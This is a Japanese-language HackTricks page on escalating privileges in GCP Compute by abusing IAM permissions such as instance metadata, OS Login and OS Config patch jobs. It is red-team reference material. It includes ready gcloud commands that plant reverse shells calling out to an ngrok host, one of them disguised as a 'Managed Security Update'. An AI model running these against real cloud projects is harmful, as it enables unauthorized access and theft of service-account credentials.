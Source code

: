 # GCP - Compute Privesc

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## Compute

GCPにおけるComputeとVPC（ネットワーク）に関する詳細情報は、以下を確認してください：

{% content-ref url="../../gcp-services/gcp-compute-instances-enum/" %}
[gcp-compute-instances-enum](../../gcp-services/gcp-compute-instances-enum/)
{% endcontent-ref %}

{% hint style="danger" %}
インスタンスのメタデータを変更する必要があるすべての特権昇格攻撃（新しいユーザーやSSHキーの追加など）を実行するには、**インスタンスに添付されたSAに対して`actAs`権限を持っている必要があります**。たとえSAがすでに添付されていてもです！
{% endhint %}

### `compute.projects.setCommonInstanceMetadata`

この権限を持つことで、**インスタンス**の**メタデータ**情報を**変更**し、**ユーザーの認証キーを変更**したり、**sudo**権限を持つ**新しいユーザーを作成**することができます。したがって、任意のVMインスタンスにSSHで接続し、そのインスタンスが実行しているGCPサービスアカウントを盗むことができます。\
制限事項：

* GCPサービスアカウントは、VMインスタンスでデフォルトで**非常に限られたスコープ**を持っています。
* ログインするために**SSH**サーバーに接続できる必要があります。

この権限を悪用する方法についての詳細は、以下を確認してください：

{% content-ref url="gcp-add-custom-ssh-metadata.md" %}
[gcp-add-custom-ssh-metadata.md](gcp-add-custom-ssh-metadata.md)
{% endcontent-ref %}

新しいスタートアップスクリプトを追加し、インスタンスを再起動することでこの攻撃を実行することもできます：
```bash
gcloud compute instances add-metadata my-vm-instance \
--metadata startup-script='#!/bin/bash
bash -i >& /dev/tcp/0.tcp.eu.ngrok.io/18347 0>&1 &'

gcloud compute instances reset my-vm-instance
```
### `compute.instances.setMetadata`

この権限は、**プロジェクト全体ではなく特定のインスタンスに対して前の権限と同じ特権を与えます**。**前のセクションと同じ脆弱性と制限が適用されます**。

### `compute.instances.setIamPolicy`

この種の権限は、**前の権限を持つ役割を自分に付与し、これを悪用して特権を昇格させることを可能にします**。

### **`compute.instances.osLogin`**

**インスタンスでOSLoginが有効になっている場合**、この権限を使用すると、単に**`gcloud compute ssh [INSTANCE]`**を実行してインスタンスに接続できます。インスタンス内では**root権限はありません**。

{% hint style="success" %}
この権限を使用してVMインスタンス内に正常にログインするには、VMにアタッチされたSAに対して`iam.serviceAccounts.actAs`権限を持っている必要があります。
{% endhint %}

### **`compute.instances.osAdminLogin`**

**インスタンスでOSLoginが有効になっている場合**、この権限を使用すると、単に**`gcloud compute ssh [INSTANCE]`**を実行してインスタンスに接続できます。インスタンス内では**root権限があります**。

{% hint style="success" %}
この権限を使用してVMインスタンス内に正常にログインするには、VMにアタッチされたSAに対して`iam.serviceAccounts.actAs`権限を持っている必要があります。
{% endhint %}

### `compute.instances.create`,`iam.serviceAccounts.actAs, compute.disks.create`, `compute.instances.create`, `compute.instances.setMetadata`, `compute.instances.setServiceAccount`, `compute.subnetworks.use`, `compute.subnetworks.useExternalIp`

**サービスアカウントが割り当てられた仮想マシンを作成し、メタデータにアクセスしてそのトークンを盗む**ことが可能です。これにより、特権を昇格させることができます。

この方法のためのエクスプロイトスクリプトは[こちら](https://github.com/RhinoSecurityLabs/GCP-IAM-Privilege-Escalation/blob/master/ExploitScripts/compute.instances.create.py)で見つけることができます。

### `osconfig.patchDeployments.create` | `osconfig.patchJobs.exec`

**`osconfig.patchDeployments.create`**または**`osconfig.patchJobs.exec`**権限を持っている場合、[**パッチジョブまたはデプロイメント**](https://blog.raphael.karger.is/articles/2022-08/GCP-OS-Patching)を作成できます。これにより、環境内で横移動し、プロジェクト内のすべてのコンピュートインスタンスでコード実行を得ることができます。

現時点では、インスタンスにアタッチされたSAに対して**`actAs`権限は必要ありません**。

これを手動で悪用したい場合は、[**パッチジョブ**](https://github.com/rek7/patchy/blob/main/pkg/engine/patches/patch_job.json) **または** [**デプロイメント**](https://github.com/rek7/patchy/blob/main/pkg/engine/patches/patch_deployment.json)**を作成する必要があります。**\
パッチジョブを実行するには： 

{% code overflow="wrap" %}
```python
cat > /tmp/patch-job.sh <<EOF
#!/bin/bash
bash -i >& /dev/tcp/0.tcp.eu.ngrok.io/18442 0>&1
EOF

gsutil cp /tmp/patch-job.sh gs://readable-bucket-by-sa-in-instance/patch-job.sh

# Get the generation number
gsutil ls -a gs://readable-bucket-by-sa-in-instance

gcloud --project=$PROJECT_ID compute os-config patch-jobs execute \
--instance-filter-names=zones/us-central1-a/instances/<instance-name> \
--pre-patch-linux-executable=gs://readable-bucket-by-sa-in-instance/patch-job.sh#<generation-number> \
--reboot-config=never \
--display-name="Managed Security Update" \
--duration=300s
```
{% endcode %}

パッチデプロイメントを展開するには：
```bash
gcloud compute os-config patch-deployments create <name> ...
```
The tool [patchy](https://github.com/rek7/patchy) は、過去にこの誤設定を悪用するために使用されていました（しかし、現在は動作していません）。

**攻撃者はこれを持続性のために悪用することもできます。**

### `compute.machineImages.setIamPolicy`

**コンピュートイメージに対して追加の権限を付与します。**

### `compute.snapshots.setIamPolicy`

**ディスクスナップショットに対して追加の権限を付与します。**

### `compute.disks.setIamPolicy`

**ディスクに対して追加の権限を付与します。**

### アクセススコープのバイパス

このリンクをたどると、[**アクセススコープをバイパスするためのアイデア**](../)が見つかります。

### GCPコンピュートインスタンスにおけるローカル特権昇格

{% content-ref url="../gcp-local-privilege-escalation-ssh-pivoting.md" %}
[gcp-local-privilege-escalation-ssh-pivoting.md](../gcp-local-privilege-escalation-ssh-pivoting.md)
{% endcontent-ref %}

## 参考文献

* [https://rhinosecuritylabs.com/gcp/privilege-escalation-google-cloud-platform-part-1/](https://rhinosecuritylabs.com/gcp/privilege-escalation-google-cloud-platform-part-1/)

{% hint style="success" %}
AWSハッキングを学び、練習する：<img src="../../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">\
GCPハッキングを学び、練習する：<img src="../../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricksをサポートする</summary>

* [**サブスクリプションプラン**](https://github.com/sponsors/carlospolop)を確認してください！
* **💬 [**Discordグループ**](https://discord.gg/hRep4RUj7f)または[**Telegramグループ**](https://t.me/peass)に参加するか、**Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**をフォローしてください。**
* **ハッキングのトリックを共有するには、[**HackTricks**](https://github.com/carlospolop/hacktricks)および[**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud)のGitHubリポジトリにPRを提出してください。**

</details>
{% endhint %}
